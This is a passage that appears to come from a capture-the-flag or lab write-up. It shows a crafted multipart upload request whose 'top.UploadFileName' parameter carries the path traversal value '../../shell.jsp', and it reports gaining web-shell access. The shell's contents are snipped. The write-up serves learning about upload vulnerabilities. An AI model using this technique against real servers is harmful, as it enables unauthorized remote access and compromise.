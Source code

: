 So the exploit form would be:
```
-----------------------------82912526535569421431365127366
Content-Disposition: form-data; name="Upload"; filename="wither_rose.png"
Content-Type: image/png

(SNIP)
-----------------------------82912526535569421431365127366
Content-Disposition: form-data; name="top.UploadFileName"

../../shell.jsp
-----------------------------82912526535569421431365127366--
```
Then we can find it was uploaded successfully into `../../shell.jsp`
![](images/Pasted%20image%2020250724152124.png)

Finally we can get the access to web-shell